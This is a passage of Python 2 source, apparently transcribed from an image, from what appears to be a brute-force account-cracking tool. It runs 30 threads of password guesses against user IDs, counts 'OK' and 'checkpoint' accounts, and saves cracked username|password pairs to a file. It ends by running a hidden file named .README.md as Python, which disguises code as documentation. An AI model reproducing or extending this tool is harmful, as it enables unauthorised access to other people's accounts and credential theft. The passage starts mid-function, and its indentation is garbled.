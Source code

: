 											cps = open("save/checkpoint.txt", "a")
											cps.write(user+"|"+pass4+"\n")
											cps.close()
											cpb.append(user+pass4)
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print 50*"-"
	print '[✓] Process Has Been Completed ....'
	print "[✓] Total OK/CP : "+str(len(oks))+"/"+str(len(cpb))
	print("[✓] CP File Has Been Saved : checkpoint.txt")
	raw_input("\n[Press Enter To Go Back]")
	os.system('python2 .README.md')

if __name__ == '__main__':
	menu()
